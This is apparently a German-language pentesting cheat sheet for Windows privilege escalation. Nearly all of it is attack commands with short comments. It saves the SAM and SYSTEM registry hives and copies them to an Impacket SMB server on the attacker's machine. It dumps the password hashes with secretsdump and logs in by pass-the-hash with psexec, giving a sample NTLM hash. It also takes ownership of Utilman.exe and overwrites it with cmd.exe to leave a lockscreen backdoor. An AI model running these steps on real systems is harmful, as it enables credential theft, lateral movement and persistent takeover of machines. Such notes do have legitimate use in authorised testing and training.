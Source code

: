 ```
whoami /priv
# Anzeige der Berechtigungen des aktuellen Users
```

### SeBackup / SeRestore

<pre><code>C:\> reg save hklm\system C:\Users\PSYBackup\system.hive
The operation completed successfully.
<strong># Backup der System Hashes
</strong>
C:\> reg save hklm\sam C:\Users\PSYBackup\sam.hive
The operation completed successfully.
<strong># Backup der SAM Hashes
</strong></code></pre>

{% code overflow="wrap" %}
```
python3 /usr/bin/smbserver.py -smb2support -username <user> -password <pass> public <localdir>
# Starten des Impacket SMBServers zum Transfer der Daten Windows -> Linux

copy <dateipfad> \\<localIP>\public\
# Zugehöriger Befehl zum Kopieren (Win-seitig)
```
{% endcode %}

```
python3 /usr/bin/secretsdump.py -sam <sam.hive> -system <system.hive> LOCAL
# Pashwort-Hashes offenlegen für PassTheHash
```

{% code overflow="wrap" %}
```
python3 /usr/bin/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@<zielIP>
# PassTheHash
```
{% endcode %}

### SeTakeOwnership

```
C:\Windows\System32\Utilman.exe
# Programm für Hilfe-Panel im Lockscreen

takeown /f <pfad\zur\datei.exe>
# Neuen Besitzer festlegen

icacls C:\Windows\System32\Utilman.exe /grant PSYTakeOwnership:F
# Vollzugriff auf Datei erlauben

copy cmd.exe utilman.exe
# inhalt von cmd in utilman kopieren
```
